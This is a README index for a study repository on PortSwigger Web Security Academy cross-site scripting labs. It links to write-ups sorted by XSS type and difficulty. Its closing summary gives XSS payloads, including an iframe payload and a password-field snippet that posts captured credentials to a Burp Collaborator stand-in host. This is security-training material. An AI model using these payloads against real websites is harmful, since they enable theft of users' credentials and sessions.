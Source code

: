 # [Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)

## Lab

- Reflected XSS:
  - apprentice:
    - [1. Reflected XSS into HTML context with nothing encoded](./lab/1.%20Reflected%20XSS%20into%20HTML%20context%20with%20nothing%20encoded.md)
    - [7. Reflected XSS into attribute with angle brackets HTML-encoded](./lab/7.%20Reflected%20XSS%20into%20attribute%20with%20angle%20brackets%20HTML-encoded.md)
    - [9. Reflected XSS into a JavaScript string with angle brackets HTML encoded](./lab/9.%20Reflected%20XSS%20into%20a%20JavaScript%20string%20with%20angle%20brackets%20HTML%20encoded.md)
  - practitioner:
    - [17. Reflected XSS into HTML context with most tags and attributes blocked](./lab/17.%20Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked.md)
    - [18. Reflected XSS into HTML context with all tags blocked except custom ones](./lab/18.%20Reflected%20XSS%20into%20HTML%20context%20with%20all%20tags%20blocked%20except%20custom%20ones.md)
    - [19. Reflected XSS with some SVG markup allowed](./lab/19.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed.md)
    - [20. Reflected XSS in canonical link tag](./lab/20.%20Reflected%20XSS%20in%20canonical%20link%20tag.md)
    - [21. Reflected XSS into a JavaScript string with single quote and backslash escaped](./lab/21.%20Reflected%20XSS%20into%20a%20JavaScript%20string%20with%20single%20quote%20and%20backslash%20escaped.md)
    - [22. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](./lab/22.%20Reflected%20XSS%20into%20a%20JavaScript%20string%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20escaped.md)
    - [24. Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped](./lab/24.%20Reflected%20XSS%20into%20a%20template%20literal%20with%20angle%20brackets%2C%20single%2C%20double%20quotes%2C%20backslash%20and%20backticks%20Unicode-escaped.md)
- Stored XSS:
  - apprentice:
    - [2. Stored XSS into HTML context with nothing encoded](./lab/2.%20Stored%20XSS%20into%20HTML%20context%20with%20nothing%20encoded.md)
    - [8. Stored XSS into anchor href attribute with double quotes HTML-encoded](./lab/8.%20Stored%20XSS%20into%20anchor%20href%20attribute%20with%20double%20quotes%20HTML-encoded.md)
  - practitioner:
    - [23. Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped](./lab/23.%20Stored%20XSS%20into%20onclick%20event%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20and%20backslash%20escaped.md)

- DOM-based XSS:
  - apprentice:
    - [3. DOM XSS in document.write sink using source location.search](./lab/3.%20DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search.md)
    - [4. DOM XSS in innerHTML sink using source location.search](./lab/4.%20DOM%20XSS%20in%20innerHTML%20sink%20using%20source%20location.search.md)
    - [5. DOM XSS in jQuery anchor href attribute sink using location.search source](./lab/5.%20DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20location.search%20source.md)
    - [6. DOM XSS in jQuery selector sink using a hashchange event](./lab/6.%20DOM%20XSS%20in%20jQuery%20selector%20sink%20using%20a%20hashchange%20event.md)
  - practitioner:
    - [10. DOM XSS in document.write sink using source location.search inside a select element](./lab/10.%20DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search%20inside%20a%20select%20element.md)
    - [11. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded](./lab/11.%20DOM%20XSS%20in%20AngularJS%20expression%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded.md)
- practitioner:
  - [12. Reflected DOM XSS](./lab/12.%20Reflected%20DOM%20XSS.md)
  - [13. Stored DOM XSS](./lab/13.%20Stored%20DOM%20XSS.md)
  - [14. Exploiting cross-site scripting to steal cookies](./lab/14.%20Exploiting%20cross-site%20scripting%20to%20steal%20cookies.md)
  - [15. Exploiting cross-site scripting to capture passwords](./lab/15.%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords.md)
  - [16. Exploiting XSS to perform CSRF](./lab/16.%20Exploiting%20XSS%20to%20perform%20CSRF.md)

## Summary

Context:

- between html tags:

  ```html
  <script>alert(document.domain)</script>
  <img src=1 onerror=alert(1)>
  ```

auto resize:

 ```html
<iframe src="https://id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width=1>
```

script to steal cookies:

```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

## References

cheatsheet: <https://portswigger.net/web-security/cross-site-scripting/cheat-sheet>
